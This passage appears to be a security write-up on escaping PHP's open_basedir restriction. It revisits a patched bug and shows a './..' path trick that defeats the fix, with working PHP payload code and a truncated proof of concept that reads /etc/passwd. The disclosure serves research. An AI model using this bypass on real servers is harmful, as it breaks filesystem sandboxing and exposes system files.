 The issue was reported [https://bugs.php.net/bug.php?id=76359](https://bugs.php.net/bug.php?id=76359), and as someone wrote:

>Indeed, this is not a security issue according to our classification[1].
>
>[1] <https://wiki.php.net/security>

Hmmm, still, the issue was patched, but still disputed, considered as a misused directive instead of a real bug ([https://github.com/php/php-src/pull/7024](https://github.com/php/php-src/pull/7024)).

I was peacefully working on a PHP tool to bypass `disable_functions` directive, with the desire to first bypass `open_basedir`. It was PHP 7.3.29 and the bypass was working like a charm. But when it came to run it on the VM, with PHP 8.1, it failed. I was indeed not able to append `../` to the directive. Quite frustrated, I took a look at the issue, and then at [its patch](https://github.com/php/php-src/pull/7024/commits/20451f09130ef4b1f6cbb4abbe07ca884bb1dca0):

<img width="100%" style="margin-left:auto;margin-right:auto;display:block;" alt="bypass fix" src="/assets/res/stuff/fix.png">

One can see here that the code checks whether the 1st and 2nd character are dots, and that the 3rd one is either a null or a slash. But what if the 2nd character is a slash, with a path being something like `'./..'` ?

Indeed, I changed my payload to something like:

```php
<?php
    mkdir("dindon");
    chdir("dindon");
    ini_set("open_basedir", ini_get("open_basedir").":./../"); //here, prepend with ./
    chdir(".."); //now we are in /var/www/html/myapp
    chdir(".."); //now in /var/www/html
    chdir(".."); //almost there, we are in /var/www
    chdir(".."); //one step more, we are in /var
    chdir(".."); //yay, we landed in /
```

and landed into `/` :smiley:

I then wrote a small PoC and tried it on a Docker running PHP 8.2.2RC1.:

```php
<?php
  function read_etc_passwd(){
    $content = @file_get_contents("/etc/passwd");
    if ($content !== false){echo $content;}
    else {echo "Nope, /etc/passwd not readable".PHP_EOL;}
  }
  echo "Running PHP version ".PHP_VERSION.PHP_EOL;
  read_etc_passwd();
  $path = "a/b/c";
  $here = getcwd();
  if (mkdir($path, 0777, true)){
    chdir($path);
    ini_set("open_basedir", ini_get('open_basedir').":../../../");
    chdir($here);
    echo "open_basedir directive is still ".ini_get('open_basedir').PHP_EOL;
```